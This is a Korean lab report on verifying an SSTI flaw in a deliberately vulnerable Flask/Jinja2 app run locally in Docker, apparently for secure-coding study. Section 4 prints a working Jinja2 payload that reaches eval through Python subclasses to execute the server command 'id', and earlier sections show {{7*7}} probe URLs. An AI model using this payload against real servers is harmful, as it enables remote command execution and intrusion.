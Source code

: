 # SSTI (Server-Side Template Injection) 취약점 실습 보고서

---

## 1. 실습 개요

- **주제**: Flask 기반 웹 서버의 SSTI(Server-Side Template Injection) 취약점 검증
- **목표**: Jinja2 템플릿 엔진의 취약점을 이용하여 서버 측 명령어를 실행하는 PoC 검증

---

## 2. 환경 구성

- **OS**: Windows 10 (PowerShell 사용)
- **Docker**: Docker Desktop for Windows
- **Python**: 3.x 버전
- **Flask 버전**: 3.0.3

### 사용한 주요 파일

| 파일명 | 설명 |
|:---|:---|
| docker-compose.yml | Flask 서버를 컨테이너로 띄우기 위한 설정 파일 |
| Dockerfile | Flask 앱을 컨테이너화하기 위한 설정 파일 |
| src/app.py | SSTI 취약점이 존재하는 Flask 웹 어플리케이션 |
| poc.py | SSTI 취약점을 이용해 공격을 수행하는 PoC 스크립트 |

---

## 3. 동작 흐름

### 3.1 Docker Compose로 서버 실행

```bash
docker compose up --build
```

**실행 화면 캡처:**

![Image](https://github.com/user-attachments/assets/daadfddf-5e53-4cf1-bc6a-9b7e64732820)
![Image](https://github.com/user-attachments/assets/496fb46c-71ec-4a10-88bd-6904319996f9)

---

### 3.2 웹 브라우저에서 SSTI 테스트

- URL 접근:

```
http://localhost:8000/?name={{7*7}}
http://localhost:8000/?name={{8*7}}
```

- 결과 화면:

![Image](https://github.com/user-attachments/assets/402e2e64-3c8e-492a-9f26-3ea9e106e2c9)
![Image](https://github.com/user-attachments/assets/502dcf05-434b-4329-92a5-18b85075f404)

---

### 3.3 PoC 코드 실행

- `poc.py` 실행:

```bash
python poc.py
```

- 출력 결과:

![Image](https://github.com/user-attachments/assets/f381ca1f-7c97-4e79-adb5-78b96683e8bd)
![Image](https://github.com/user-attachments/assets/08c1953d-7c9a-48d7-af3e-021ab99a0e15)

---

### 3.4 서버의 명령어 실행 결과

- 서버에서 `id` 명령어 결과를 반환:

![Image](https://github.com/user-attachments/assets/76a3486c-77d2-4990-8f5f-13b8809ddf9c)

---

## 4. 취약점 검증 (PoC)

### 4.1 SSTI 공격 페이로드

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
      {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %}
          {{ b['eval']('__import__("os").popen("id").read()') }}
        {% endif %}
      {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```

- 해당 페이로드를 통해 서버 내부에서 명령어 실행(`id`)을 성공적으로 수행하였다.

---

## 5. 결과 요약

| 항목 | 결과 |
|:---|:---|
| SSTI 취약점 존재 여부 | o 존재 확인 |
| 명령어 실행 성공 여부 | o 서버 명령어(id) 실행 성공 |
| PoC 성공 여부 | o 성공적으로 서버 제어 |

---

## 6. GitHub 레포지터리

- 작업 결과 GitHub 레포지터리:  
[https://github.com/buddle031/secure-coding](https://github.com/buddle031/secure-coding)

---

## 7. 결론

본 실습을 통해 Flask/Jinja2 환경에서 발생 가능한 SSTI 취약점을 직접 검증하고, 서버 측 명령어 실행까지 성공하였다.  
이를 통해 서비스 개발 시 템플릿 렌더링 과정에서 입력값을 철저히 검증하고, 취약점을 예방하는 보안 조치가 필요함을 확인할 수 있었다.

--- 
